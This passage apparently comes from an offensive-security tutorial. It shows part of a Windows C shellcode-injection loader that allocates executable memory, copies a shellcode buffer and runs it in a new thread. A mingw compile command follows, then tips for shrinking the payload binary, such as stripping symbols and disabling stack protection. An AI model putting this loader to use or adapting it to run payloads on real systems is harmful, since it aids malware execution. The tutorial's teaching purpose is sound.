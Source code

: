 ```c
    DWORD pid = GetCurrentProcessId();
    printf("\n[+] Current process ID: %lu\n", pid);

    LPVOID lpAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    printf("\n[+] Allocated memory locally in address : 0x%p\n", lpAlloc);

    if(!RtlMoveMemory(lpAlloc, shellcode, sizeof(shellcode))) {
        printf("[!] Shellcode not copied\n");
        return 1;
    }

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}

```

We can compile this code using the following command:

```shell
x86_64-w64-mingw32-gcc shellcode-injection.c -o shellcode-injection.exe -m64

```

Compiling normally will produce a file of approximately 247.6 KB. This is quite a large file. Let's see how we can reduce the payload size.

### Payload size reduction

Reducing the size of an executable is an important task, especially when dealing with shellcode and payloads in the context of security research or exploits. There are several methods and compiler options to reduce the size of our executable when using `x86_64-w64-mingw32-gcc`:

- `Strip Debug Information and Symbols`:
The `-s` option strips the executable, removing all symbol table and relocation information.
Alternatively, the `strip` command can be used post-compilation for further stripping.
- `Optimization for Size`:
The `-Os` optimization flag optimizes for size, enabling all `-O2` optimizations except those that increase the size of the binary.
- `Remove Unused Sections`:
The `-Wl,--gc-sections` flag tells the linker to remove unused sections.
- `Disable Exceptions`:
The `-fno-exceptions` flag disables C++ exception handling, reducing the binary size.
- `Reduce Standard Library Usage`:
Minimize the use of standard library functions where possible.
Use `-nostdlib` or `-nodefaultlibs` if you are not using any standard library functions.
- `Inline Functions`:
Use `-finline-functions` to inline functions, which can reduce function call overhead.
- `Minimize Stack Usage`:
Use `-fno-stack-protector` to disable stack protection, which can reduce the binary size.
- `Linker Scripts`:
Custom linker scripts can further reduce size by controlling the sections and symbols included in the binary.

